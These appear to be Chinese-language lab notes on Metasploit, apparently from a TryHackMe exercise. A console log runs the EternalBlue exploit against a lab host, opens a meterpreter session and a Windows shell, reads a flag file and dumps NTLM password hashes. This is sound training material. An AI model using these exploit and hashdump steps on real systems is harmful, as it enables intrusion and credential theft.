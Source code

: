 search 漏洞    
info  獲取有關該漏洞利用的更多信息     

成功的結果取決於對目標系統上運行的服務的透徹理解     


漏洞利用都會有一個預設的默認負載     
可以使用show payloads命令列出可用於該特定漏洞的其他命令。      
確定有效負載後，您可以使用set payload     
show options 顯示需要設置的新參數     
使用後台CTRL+Z或使用 中止它CTRL+C      

##  使用會話
`sessions`  列出所有活動會話,支持許多選項，可幫助您更好地管理會話。   
-h help      
sessions -i 可以使用後跟會話 ID的命令與任何現有會話進行交互      
```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RhoSTS 10.10.182.247
RhoSTS => 10.10.182.247
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost 10.9.1.50 
lhost => 10.9.1.50
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

meterpreter > search -f flag.txt
Found 1 result...
=================

Path                             Size (bytes)  Modified (UTC)
----                             ------------  --------------
c:\Users\Jon\Documents\flag.txt  15            2021-07-14 22:39:25 -0400

meterpreter > cat c:\Users\Jon\Documents\flag.txt
[-] stdapi_fs_stat: Operation failed: The system cannot find the file specified.
meterpreter > shell 
Process 2480 created.
Channel 2 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>type c:\Users\Jon\Documents\flag.txt
type c:\Users\Jon\Documents\flag.txt
THM-5455554845



meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
pirate:1001:aad3b435b51404eeaad3b435b51404ee:8ce9a3ebd1647fcc5e04025019f4b875:::

```
## task6
